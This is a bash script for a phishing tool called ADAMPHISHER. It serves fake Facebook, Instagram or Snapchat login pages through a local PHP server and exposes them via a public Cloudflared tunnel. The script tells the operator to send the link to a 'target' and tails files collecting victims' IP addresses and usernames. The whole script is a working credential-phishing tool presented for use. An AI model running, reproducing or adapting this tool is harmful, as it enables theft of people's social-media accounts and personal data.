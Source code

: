 
#!/bin/bash

# ADAMPHISHER by Adam & Inass
# Lightweight phishing tool using PHP + Cloudflared

# Colors
r='\033[1;31m'
g='\033[1;32m'
c='\033[1;36m'
w='\033[1;37m'

# Banner
banner() {
    clear
    echo -e "$c"
    echo "   ▄▄▄       ████╗  ███████╗ ██╗  ██╗██████╗ ██╗███████╗██╗  ██╗"
    echo "  ████╗     ██╔═██╗ ██╔════╝ ██║  ██║██╔══██╗██║██╔════╝██║ ██╔╝"
    echo " ██╔██║     █████═╝ █████╗   ███████║██████╔╝██║███████╗█████╔╝ "
    echo " ██║╚██╗    ██╔═██╗ ██╔══╝   ██╔══██║██╔═══╝ ██║╚════██║██╔═██╗ "
    echo " ╚═╝ ╚═╝    ██║ ╚██╗███████╗ ██║  ██║██║     ██║███████║██║ ╚██╗"
    echo "            ╚═╝  ╚═╝╚══════╝ ╚═╝  ╚═╝╚═╝     ╚═╝╚══════╝╚═╝  ╚═╝ v1.0"
    echo -e "$w"
    echo "────────────────────────────────────────────────────────────"
    echo -e "$g   By     : Adam & Inass"
    echo -e "$g   Github : https://github.com/rcagh"
    echo -e "$g   Tool   : Light Phishing (Cloudflared Tunnel)"
    echo "────────────────────────────────────────────────────────────"
}

# Dependencies check
check_deps() {
    for i in php curl wget; do
        if ! command -v $i > /dev/null 2>&1; then
            echo -e "$r[!] $i not found. Installing...$w"
            pkg install $i -y > /dev/null 2>&1
        fi
    done
    if [ ! -f cloudflared ]; then
        echo -e "$c[~] Downloading Cloudflared...$w"
        wget https://github.com/cloudflare/cloudflared/releases/latest/download/cloudflared-linux-arm -O cloudflared > /dev/null 2>&1
        chmod +x cloudflared
    fi
}

# Phishing pages
choose_site() {
    echo -e "$w\n[+] Choose a site to phish:\n"
    echo -e " $g[01]$w Facebook"
    echo -e " $g[02]$w Instagram"
    echo -e " $g[03]$w Snapchat"
    echo -e " $g[04]$w Exit"
    read -p $'\n[>] Option: ' opt
    case $opt in
        1|01) site="facebook";;
        2|02) site="instagram";;
        3|03) site="snapchat";;
        4|04) exit;;
        *) echo -e "$r[!] Invalid option$w" && sleep 1 && choose_site;;
    esac
}

# Start PHP and Cloudflared
start_server() {
    echo -e "$c[~] Starting PHP server...$w"
    php -S 127.0.0.1:8080 -t sites/$site/ > /dev/null 2>&1 &
    sleep 2
    echo -e "$c[~] Starting Cloudflared tunnel...$w"
    ./cloudflared tunnel --url http://127.0.0.1:8080 > .link.log 2>/dev/null &
    sleep 5
    link=$(grep -o 'https://[-0-9a-z]*\.trycloudflare.com' .link.log)
    echo -e "\n$g[+] Send this link to target: $c$link$w"
    echo -e "$w[~] Waiting for victim... Press Ctrl+C to stop.\n"
    tail -f sites/$site/ip.txt 2>/dev/null &
    tail -f sites/$site/usernames.txt 2>/dev/null
}

# Main
banner
check_deps
choose_site
start_server
